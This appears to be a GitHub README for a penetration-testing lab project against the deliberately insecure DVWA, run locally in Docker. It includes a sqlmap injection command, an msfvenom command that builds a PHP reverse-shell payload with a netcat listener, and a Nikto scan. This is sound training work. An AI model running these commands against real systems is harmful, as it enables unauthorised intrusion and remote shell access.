 # DVWA Vulnerability Assessment

This project documents the process of identifying and exploiting various vulnerabilities in the **Damn Vulnerable Web Application (DVWA)**, a deliberately insecure web application designed for practicing penetration testing techniques.

---

## **Table of Contents**
1. [Project Overview](#project-overview)
2. [Setup](#setup)
   - [Installing DVWA Using Docker](#installing-dvwa-using-docker)
3. [Vulnerabilities Explored](#vulnerabilities-explored)
   - [1. SQL Injection](#1-sql-injection)
   - [2. File Upload Vulnerability](#2-file-upload-vulnerability)
   - [3. General Vulnerability Testing Using Nikto](#3-general-vulnerability-testing-using-nikto)
4. [Tools Used](#tools-used)
5. [Screenshots](#screenshots)
6. [Writeups](#writeups)
   - [SQL Injection Writeup](sql-injection.md)
   - [File Upload Vulnerability Writeup](file-upload.md)

---

## **Project Overview**
The goal of this project is to demonstrate practical penetration testing skills by:
1. Setting up a DVWA instance using Docker.
2. Exploring and exploiting vulnerabilities in the application, including SQL Injection and File Upload vulnerabilities.
3. Using tools such as `sqlmap`, `Nikto`, and `msfvenom` to perform the assessment.
4. Providing detailed documentation for each vulnerability with remediation suggestions.

---

## **Setup**

### Installing DVWA Using Docker
The following steps were performed to set up DVWA using Docker:

1. **Start and Enable Docker**:
   ```bash
   sudo systemctl start docker
   sudo systemctl enable docker
   ```

2. **Pull DVWA Docker Image**:
   ```bash
   sudo docker pull vulnerables/web-dvwa
   ```

3. **Run DVWA**:
   ```bash
   sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
   ```

Refer to the screenshot below for the commands executed:
![Installing DVWA Using Docker](https://github.com/user-attachments/assets/2b7ba66e-c526-4b87-8d1e-35932f432ab4)
<p align="center">Installing DVWA Using Docker </p>

4. Access the application at `http://127.0.0.1` and set the **security level to Low**.

---

## **Vulnerabilities Explored**

### 1. SQL Injection
- **Objective**: Exploit the SQL Injection vulnerability to extract sensitive information.
- **Steps**:
  1. Navigated to the **SQL Injection** module in DVWA.
  2. Used `sqlmap` to automate the exploitation.
     ```bash
     sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit" \
            --cookie="PHPSESSID=<SESSION_ID>; security=low" --dbs
     ```
  3. Successfully enumerated the databases and confirmed the application is vulnerable.

For a detailed writeup, see: [SQL Injection Writeup](sql-injection.md)

---

### 2. File Upload Vulnerability
- **Objective**: Exploit the File Upload vulnerability to upload a malicious PHP payload.
- **Steps**:
  1. Used `msfvenom` to create a reverse shell payload:
     ```bash
     msfvenom -p php/reverse_php LHOST=192.168.191.128 LPORT=4444 -f raw > shell.php
     ```
  2. Uploaded the payload via the File Upload module.
  3. Triggered the payload and successfully established a reverse shell using Netcat:
     ```bash
     nc -lvnp 4444
     ```
For a detailed writeup, see: [File Upload Vulnerability Writeup](file-upload.md)

---

### 3. General Vulnerability Testing Using Nikto
- **Objective**: Scan for general vulnerabilities using `Nikto`.
- **Steps**:
  1. Ran a `Nikto` scan on the application:
     ```bash
     nikto -h http://127.0.0.1
     ```
  2. Identified issues such as outdated Apache version and missing security headers.

---

## **Tools Used**
1. **Docker**: For running the DVWA container.
2. **Nikto**: To scan for general web application vulnerabilities.
3. **Sqlmap**: To automate SQL Injection attacks.
4. **Msfvenom**: For generating a malicious PHP reverse shell payload.
5. **Netcat**: For establishing a reverse shell connection.

---

## **Screenshots**

  ![SQLmap Command Execution](https://github.com/user-attachments/assets/9be88cbf-7e4f-45ee-8f6d-942268c6ecfd)
  <p align="center"> SQLmap Command Execution </p>
   
   ![SQLmap Results](https://github.com/user-attachments/assets/2ea824fc-d18e-43b7-8d4c-1dc6347768e2)
  <p align="center"> SQLmap Results </p>

   ![Nikto Scan Results](https://github.com/user-attachments/assets/c5d334f2-ca77-47e4-97e0-f3206880479c)
  <p align="center"> Nikto Scan Results </p>

   ![Reverse Shell Connection](https://github.com/user-attachments/assets/3dc931c8-7e55-4e63-aa7d-3310bcc36991)
  <p align="center"> Reverse Shell Connection </p>

---

## **Writeups**

- [SQL Injection Writeup](sql-injection.md)
- [File Upload Vulnerability Writeup](file-upload.md)
- [Nikto Scan Writeup](nikto-scan.md)

Refer to individual writeups for detailed steps, analysis, and mitigation suggestions.

